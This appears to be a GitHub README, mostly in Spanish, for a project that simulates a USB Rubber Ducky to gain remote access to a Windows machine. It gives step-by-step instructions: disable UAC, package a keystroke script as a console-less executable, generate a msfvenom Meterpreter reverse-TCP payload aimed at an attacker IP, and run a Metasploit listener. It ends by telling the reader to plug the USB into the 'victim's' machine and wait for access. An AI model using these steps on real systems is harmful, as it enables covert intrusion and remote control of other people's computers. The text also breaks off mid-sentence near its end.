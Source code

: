 # Rubber-Ducky-Simulation
In this project, we simulate a Rubber Ducky using a standard USB drive with a Python script and autorun functionality. This allows us to replicate its keystroke execution capabilities for automated penetration testing. The project emphasizes scripting skills and highlights the security risks of USB devices in cybersecurity.

## Instrucciones de Uso

Primero, descargaremos los archivos del repositorio y los copiaremos en cualquier USB. Luego, editaremos los archivos según nuestras necesidades, ajustando los tiempos que consideremos adecuados para la ejecución de la secuencia de desactivación del archivo `teclas.py`. 

Es importante tener en cuenta que debemos desactivar el Control de Cuentas de Usuario (UAC) en el sistema Windows de la siguiente manera:

1. Abrir el **Panel de control**.
2. Ir a **Cuentas de usuario**.
3. Seleccionar **Cambiar configuración de Control de cuentas de usuario**.
4. Mover el control deslizante a **Nunca notificar**.
5. Hacer clic en **Aceptar** y reiniciar el sistema si es necesario.

Esta configuración permitirá que el archivo `teclas.py` se ejecute sin restricciones de permisos.

<div align="center">
  <img src="https://github.com/user-attachments/assets/59126bcb-c0c4-48ff-81c1-20f607277a46" alt="Description of image">
</div>

## Instrucciones de Uso (Continuación)

Una vez desactivadas las restricciones de UAC y editado el código con los tiempos a nuestra conveniencia, procederemos a convertir el código en un ejecutable utilizando **PyInstaller**. 

# Conversión de teclas.py a un archivo .exe

Este proyecto incluye el archivo `teclas.py`, el cual puedes convertir en un ejecutable (.exe) utilizando `PyInstaller`. Sigue los pasos a continuación para realizar la conversión:

## Requisitos
1. Asegúrate de tener instalado Python 3 en tu sistema.
2. Instala PyInstaller ejecutando el siguiente comando en tu terminal:

   ```bash
   pip install pyinstaller
Instrucciones
Descarga o clona este repositorio para obtener el archivo teclas.py.

Abre un terminal en el directorio donde se encuentra el archivo teclas.py. Si estás utilizando Visual Studio Code, puedes abrir el terminal integrado con Ctrl + `.

Ejecuta el siguiente comando para convertir el script en un archivo ejecutable (.exe) y evitar que se abra una consola interactiva:

```
pyinstaller --onefile --noconsole teclas.py
```
Resultado
Una vez que el comando haya terminado de ejecutarse, encontrarás el archivo ejecutable en la carpeta dist que se crea automáticamente en el directorio del proyecto.
El archivo ejecutable estará listo para ejecutarse en sistemas operativos Windows.

Luego, en nuestra máquina atacante, crearemos el payload con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPAtacante LPORT=PuertoAtacante -f exe -o shell.exe
```
Una vez generado, copiaremos el payload en la USB

Si deseamos que la USB se ejecute automáticamente en el sistema de la víctima, es necesario que la máquina tenga instalado apo_usb_autorun debido a las restricciones de windows. Si no es así, tendremos que hacer doble clic manualmente en el archivo ejecutable teclas.exe.

Después de esto, nos pondremos en escucha en nuestra IP y puerto asignados en el payload con el siguiente comando:

```bash
msfconsole -e use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IPAtacante
set LPORT PuertoAtacante
run
```
Finalmente, insertaremos la USB en la máquina de la víctima y esperaremos el acceso remoto.


Recuerda reemplazar `IPAtacante` y `PuertoAtacante` con los valores correspondientes. También 

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">


Author: xrl3y
